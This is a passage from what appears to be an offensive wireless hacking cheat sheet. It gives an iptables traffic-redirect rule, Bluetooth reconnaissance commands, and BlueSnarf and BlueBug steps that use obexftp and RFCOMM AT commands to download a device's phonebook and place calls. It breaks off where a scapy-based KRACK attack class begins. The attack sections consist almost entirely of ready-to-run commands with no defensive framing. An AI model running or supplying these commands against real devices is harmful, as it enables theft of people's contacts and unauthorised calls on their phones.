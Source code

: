 ```bash
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:80
```

### Bluetooth Attacks

#### Bluetooth Reconnaissance
```bash
# Bluetooth scanning with hcitool
hcitool scan
hcitool inq

# Device information gathering
hcitool info AA:BB:CC:DD:EE:FF
hcitool name AA:BB:CC:DD:EE:FF

# Service discovery
sdptool browse AA:BB:CC:DD:EE:FF
sdptool records AA:BB:CC:DD:EE:FF

# BlueZ tools
bluetoothctl
# scan on
# devices
# info AA:BB:CC:DD:EE:FF
```

#### BlueSnarf Attack
```bash
# BlueSnarf using obexftp
obexftp -b AA:BB:CC:DD:EE:FF -c /
obexftp -b AA:BB:CC:DD:EE:FF -g telecom/pb.vcf

# BlueSnarf++ for newer devices
# Requires RFCOMM connection
rfcomm connect 0 AA:BB:CC:DD:EE:FF
```

#### BlueBug Attack
```bash
# AT command injection over RFCOMM
# Connect to device
rfcomm connect 0 AA:BB:CC:DD:EE:FF 17

# Send AT commands
echo "ATD+1234567890;" > /dev/rfcomm0  # Make call
echo "AT+CPBR=1,100" > /dev/rfcomm0    # Read phonebook
```

### Advanced Wireless Attacks

#### Krack Attack (Key Reinstallation)
```python
#!/usr/bin/env python3
"""
KRACK Attack Simulation
Demonstrates key reinstallation vulnerability in WPA2
"""

from scapy.all import *
import time

class KrackAttack:
    def __init__(self, interface, target_mac, ap_mac):
        self.interface = interface
```
